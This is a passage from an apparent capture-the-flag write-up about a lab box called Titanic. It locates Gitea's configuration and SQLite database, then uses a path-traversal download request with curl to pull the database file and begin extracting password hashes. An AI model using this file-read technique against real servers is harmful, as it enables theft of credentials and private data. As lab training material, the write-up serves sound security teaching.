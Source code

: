 [This page](https://docs.gitea.com/installation/install-with-docker) has instructions for running Gitea from Docker, including:

> Customization files described [here](https://docs.gitea.com/administration/customizing-gitea) should be placed in `/data/gitea` directory. If using host volumes, it’s quite easy to access these files; for named volumes, this is done through another container or by direct access at `/var/lib/docker/volumes/gitea_gitea/_data`. The configuration file will be saved at `/data/gitea/conf/app.ini` after the installation.

I’ll check for that file, and it’s there:

![image-20250219144350031](/img/image-20250219144350031.png)

The most interesting thing in the config is the database info:

```

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

```

It gives a path to the database, and I’ll find it there:

![image-20250219144501414](/img/image-20250219144501414.png)

#### Get Hashes

I’ll download the DB using `curl` (since getting it out of Burp is a trick):

```

oxdf@hacky$ curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2036k  100 2036k    0     0  2587k      0 --:--:-- --:--:-- --:--:-- 2587k
oxdf@hacky$ file gitea.db 
gitea.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 562, database pages 509, cookie 0x1d9, schema 4, UTF-8, version-valid-for 562

```

I’ll connect, and there’s a bunch of tables:

```

oxdf@hacky$ sqlite3 gitea.db
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
access                     oauth2_grant
access_token               org_user
action                     package
action_artifact            package_blob
action_run                 package_blob_upload
action_run_index           package_cleanup_rule
action_run_job             package_file
action_runner              package_property
action_runner_token        package_version
```